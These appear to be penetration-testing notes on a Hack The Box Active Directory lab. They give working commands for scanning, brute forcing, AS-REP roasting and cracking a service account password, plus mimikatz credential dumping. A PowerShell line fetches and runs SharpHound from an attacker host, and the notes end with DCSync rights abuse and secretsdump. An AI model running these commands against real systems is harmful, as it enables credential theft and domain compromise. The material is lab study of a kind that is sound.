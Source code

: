 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- DNS
- 88
	- kerberos
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
- 445
	- smb
- 464
	- kpasswd5
- 593
	- RPC
- 636
	- tcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
- 3269
	- tcpwrapped
- 5985
	- winrm
- 9389
	- .NET Message Framing
- 47001
	- RPC
- 49152-49158
	- RPC
- 49169
	- RPC
- 49170
	- RPC
- 49179
	- RPC
### Foothold
- 21
	- ftp anonymous@$IP
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- DNS
	- nslookup
		- server $IP
		- 127.0.0.1
	- dig @10.10.10.161 htb.local
		- resolves
	- dig @10.10.10.161 forest.htb.local
		- resolves
	- dig axfr @10.10.10.161 htb.local
		- transfer failed
- RPC/ SMB
	- enum4linux $IP
	- crackmapexec smb $IP -u guest -p "" --rid-brute
	- crackmapexec smb $IP -u "" -p "" --pass-pol
	- rpcclient -U '' $IP
		- enumdomusers
			- `user:[sebastien] rid:[0x479]
			- `user:[lucinda] rid:[0x47a]
			- `user:[svc-alfresco] rid:[0x47b]  
			- `user:[andy] rid:[0x47e]                
			- `user:[mark] rid:[0x47f]                
			- `user:[santi] rid:[0x480]
		- enumdomgroups
			- `group:[Domain Admins] rid:[0x200]
		- querygroupmem 0x200
			- `rid:[0x1f4] attr:[0x7]
			- queryuser 0x1f4
				- Administrator
		- queryusergroups RID
		- queryuser RID
	- Put all found users into users.txt
	- `for user in $(cat users.txt); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
		- Receive TGT from svc-alfresco
			- hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
				- s3rvice
- 445
	- smbclient -N -L //$IP
		- anonymous login success,  no shares
	- nmap --script smb-vuln* -p135,139,445 $IP
- svc-alfresco  -  s3rvice
	- evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
		- Connected
### PE
#### Windows
- svc-alfresco
	- whoami /all
	- Root drive directory
	- net user USERNAME
		- Check group memberships
	- systeminfo
		- `./wes.py ~/OSCP/boxes/BOX_NAME/systeminfo.txt  > ~/OSCP/boxes/BOX_NAME/systeminfo_exploits.txt`
	- history
		- (Get-PSReadLineOption).HistorySavePath
	- Users with console
	- Services
		- PS1: `Get-Service | Select-Object -Property Name, DisplayName, Status
		- Unquoted
			- cmd
				- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
				- wmic service get name,displayname,pathname
			- PS1
				- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
			- icacls Filepath before .exe
				- Looking for W or F
	- netstat -ano
		- Active ports
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
	- Bloodhound
		- Download
			- `iex(new-object net.webclient).downloadstring("http://10.10.14.6/SharpHound.ps1")
		- Gather files
			- `invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
		- Move zip to A and load into bloodhound
		- Find shortest path to domain admin
			- Join Exchange Windows Generic all
				- Allows us to add member to group
				- net group "Exchange Windows Permissions" svc-alfresco /add /domain
			- Exchange Windows Writedacl over domain
				- Attack Option 1
					- Give DCSync permission
						- `$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force 
						- `$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a', $SecPassword) Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
						- Command `Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
				- Attack Option 2
					- aclpwn -f svc-alfresco -t htb.local --domain htb.local --server 10.10.10.161
					- Also adds them to DCSync. 
			- Now we can secrets dump
				- impacket-secretsdump svc-alfresco:s3rvice@10.10.10.161
					- Dumps everything
### Credentials
### Lessons Learned